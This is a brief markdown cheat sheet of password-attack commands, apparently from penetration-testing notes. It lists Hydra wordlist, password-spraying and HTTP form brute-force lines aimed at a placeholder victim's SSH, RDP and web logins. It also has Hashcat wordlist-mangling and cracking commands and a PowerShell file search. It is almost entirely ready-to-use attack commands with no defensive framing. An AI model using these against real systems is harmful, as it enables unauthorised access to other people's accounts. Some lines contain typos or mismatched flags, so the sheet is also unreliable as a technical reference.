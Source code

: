 # Password attacks

## Hydra

### Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
```

### Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```

### Http

```
hydra -P wordlist.txt http-post-form $IpVictim "/baseurl:user_form_field=admin:password_form_field=^PASS^:error message when password is wrong"
hydra -l user -P wordlist.txt http-get $IpVictim
```

## Hashcat

```
hashcat wordlist.txt -j 'd' wordlist.txt --stdout > newwordlist.txt
hastcat wordlist.txt -r rulelist.txt --stdout
hashcat -m 0 tocrack.txt -k 'u' newwordlist.txt --force
```

## Powershell

Find extensions:
```
Get-ChildItem -Path C:\ -Include *.someextension -File -Recurse -ErrorAction SilentlyContinue
```
